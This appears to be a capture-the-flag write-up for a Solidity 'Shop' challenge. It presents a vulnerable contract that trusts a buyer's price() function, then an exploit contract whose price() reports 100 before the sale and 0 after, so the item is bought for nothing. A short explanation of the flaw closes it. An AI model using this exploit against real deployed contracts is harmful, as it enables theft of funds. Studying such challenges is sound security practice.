

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

<hr />

# Hack

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Shop {
  function buy() external;
  function isSold() external view returns(bool);
}

contract ShopBuy {
  Shop shop;

  constructor(address shopAddress) public {
      shop = Shop(shopAddress);
  }

  function buy() public {
    shop.buy();
  }

  function price() external view returns (uint) {
    return shop.isSold() ? 0: 100;
  }
}
```

Contracts can manipulate data seen by other contracts in any way they want. It's unsafe to change the state based on external and untrusted contracts logic. Shop should implement its own price function rather than calling the buyer price function as it can be malicious. So to pass this level a contract named ShopBuy with price function which returns >= 100 on first call and less than 100 on second call is required and we create price function similar to that. Price is view function so it cannot change state and it can be used for reading the state only.

Finally, we call buy function on Remix on ShopBuy to buy the item at 0 price.